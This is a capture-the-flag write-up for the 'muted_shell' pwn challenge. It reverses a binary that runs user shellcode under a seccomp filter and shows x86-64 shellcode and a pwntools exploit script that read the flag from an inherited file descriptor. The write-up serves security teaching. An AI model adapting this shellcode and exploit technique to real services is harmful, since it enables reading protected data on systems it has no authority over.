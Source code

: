 ```yaml
---
title: Flagyard: muted_shell (pwn, easy)
date: 2025-08-22
toc: true
---
```


<img width="1479" height="376" alt="image" src="https://github.com/user-attachments/assets/558c779d-ccdc-4848-bc44-33c27992dbba" />

## muted_shell: the binary
Let's take a look at the binary:

```bash
$ file muted_shell | tr ',' '\n'
muted_shell: ELF 64-bit LSB pie executable
 x86-64
 version 1 (SYSV)
 dynamically linked
 interpreter /lib64/ld-linux-x86-64.so.2
 BuildID[sha1]=d3eb2c77f71982b5288585a740784397c71076ae
 for GNU/Linux 3.2.0
 not stripped
 
$ pwn checksec muted_shell
[*] '/home/kali/Desktop/ctfs/flagyard/muted_shell/muted_shell'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

$ ./muted_shell
Send your shellcode:
^C
 ```

 So we can see that we are dealing with a PIE enabled 64 bit binary with an executable stack. When we run it, the binary prompts us to send shellcode. Since we don’t have shellcode yet, the next step is reversing the binary.

 ## Reverse Engineering

When we take a look at the main function in Ghidra, we see this:

 ```c
bool main(void)

{
  code *__buf;
  
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  open("./flag",0);
  __buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  if (__buf != (code *)0xffffffffffffffff) {
    puts("Send your shellcode:");
    read(0,__buf,0x100);
    install_seccomp();
    (*__buf)();
  }
  else {
    perror("mmap");
  }
  return __buf == (code *)0xffffffffffffffff;
}
 ```

 `main()` function opens the flag file in read mode. Then it allocates memory with mmap() and stores shellcode there. It reads up to 0x100 bytes from stdin into the buffer. Then, seccomp is installed and our shellcode is executed. 

### can u read something without opening it?
 As, we know that `main()` function opens flag file in read mode and does not store the file descriptor returned by `open()`. Then how would we read the flag? 
 Hint suggests something about reading something without opening it. So, I researched how `open()` works. The file descriptor is not stored? No worries. Since `stdin = 0`, `stdout = 1`, `stderr = 2` are already taken, the kernel assigns the next free file descriptor, which is 3.
 So, we have to read the flag from the file descriptor 3.

### seccomp - wtf? 
Seccomp (Secure Computing Mode) is a Linux kernel feature that restricts the system calls a process can make. This prevents typical exploits like spawning a shell with `system("/bin/sh")`.

We can use `seccomp-tools` to see which syscalls are allowed by seccomp. If you don't have `seccomp-tools` installed you can do so by running following command:
```bash
$ gem install seccomp-tools
```
Dumping allowed syscalls for our binary:
```bash
$ seccomp-tools dump ./muted_shell
Send your shellcode:

 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0003
 0002: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0003: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0005
 0004: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0005: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
```

As we can see that only read, write & exit syscalls are allowed. 

## Crafting the shellcode

Since the file descriptor for the flag is 3, we can read it and write its content to stdout (1):

```asm
/* read(3, rsp, 0x100) */
xor rdi, rdi
mov dil, 3
mov rsi, rsp
mov rdx, 0x100
mov eax, 0
syscall

/* write(1, rsp, rax) */
mov edi, 1
mov rdx, rax
mov eax, 1
syscall

/* exit(0) */
xor edi, edi
mov eax, 60
syscall
```

## Exploit

We can use pwntools to assemble and send our shellcode:

```python3
from pwn import *

context.arch = "amd64"
asm_code = """
    /* read(3, rsp, 0x100) */
    xor rdi, rdi
    mov dil, 3
    mov rsi, rsp
    mov rdx, 0x100
    mov eax, 0
    syscall

    /* write(1, rsp, rax) */
    mov edi, 1
    mov rdx, rax
    mov eax, 1
    syscall

    /* exit(0) */
    xor edi, edi
    mov eax, 60
    syscall
"""

shellcode = asm(asm_code)

p = process("muted_shell")
p.sendline(shellcode)
p.interactive()
```

When we run it:

```bash
$ python3 exploit.py
[!] Could not find executable 'muted_shell' in$PATH, using './muted_shell' instead
[+] Starting local process './muted_shell': pid 1028017
[*] Switching to interactive mode
[*] Process './muted_shell' stopped with exit code 0 (pid 1028017)
Send your shellcode:
FlagY{test_flag}
[*] Got EOF while reading in interactive
$
[*] Got EOF while sending in interactive
```

To exploit a remote instance, replace `process("./muted_shell")` with:
```python
p = remote("IP_ADDRESS", PORT)
```
